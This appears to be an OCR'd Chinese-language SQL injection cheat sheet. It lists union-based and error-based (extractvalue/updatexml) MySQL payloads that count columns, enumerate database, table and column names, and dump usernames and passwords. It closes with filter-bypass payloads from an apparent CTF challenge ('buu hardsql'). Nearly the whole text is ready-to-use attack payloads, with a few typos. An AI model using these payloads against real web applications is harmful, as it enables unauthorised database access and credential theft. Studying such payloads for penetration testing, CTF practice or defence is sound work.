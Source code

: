 <!-- this is test; -->
4:union注入（适合有回显，例如输入1=1和1=2会有不同的回显）  
判断表字段数
?id=1' order by 3--+
判断回显位
?id=1' union select 1,2,3#
爆库
union select 1,2,group_concat(schema_name) from information_schema.schemata --+
爆表
union select 1,2,group_concat(table_name) from information_schema.tables where table_schema='库名'--+
爆列名
union select 1,2,group_concat(column_name) from information_schema.columns where table_name='表名' --+
爆数据
id=-1' union select 1,2,group_concat(username,password) from 表名 --+

5：报错注入（数据库的报错有明显回显）

extractvalue() 函数

获取数据库名称及版本信息
?id=1' and extractvalue(1,concat(0x7e,database(),0x7e，version(),0x7e)) --+
差库名
'^extractvalue(1,concat(0x7e,(select(database()))))%23
获取当前数据库位置
?id=1' and extractvalue(1,concat(0x7e,@@datadir,0x7e)) --+
爆列
?id=1' and extractvalue(1,concat(0x7e,(select column_name from information_schema.columns where table_name='表名' limit 0,1),0x7e)) --+
爆数据
?id=1' and extractvalue(1,concat(0x7e,（select usename from users limit 0,1),0x7e)) --+
爆表
1'^extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where(table_schema='geek'))))

updatexml() 函数\

爆库名
?id=1' and updatexml(1,concat(0x7e,(database()),0x7e),1) --+
爆表名
?id=1' and updatexml(1,concat(0x7e,(select table_name from information_schema.tables where table_schema='库名' limit 0,1 ),0x7e),1) --+
爆列名
?id=1' and updatexml(1,concat(0x7e,(select column_name from information_schema.columns where table_name='表名' and table_schema='库名' limit 0,1 ),0x7e),1) --+
爆数据
?id=1' and updatexml(1,concat(0x7e,（select group_concat(usename,password) from 表名 limit 0,1),0x7e)) --+

报错注入真实（buu hardsql）(过滤了空格和union和等号)

1'^updatexml(1,concat(0x7e,(database()),0x7e),1)#
/check.php?username=admin&password=admin'^extractvalue(1,concat(0x7e,(select(group_concat(table_name))from(information_schema.tables)where((table_schema)like('geek')))))#
1'^extractvalue(1,concat(0x7e,(select(group_concat(column_name))from(information_schema.columns)where((table_name)like('H4rDsq1')))))#

extractvalue(1,concat(0x7e,(select(right(password,30))from(geek.H4rDsq1))))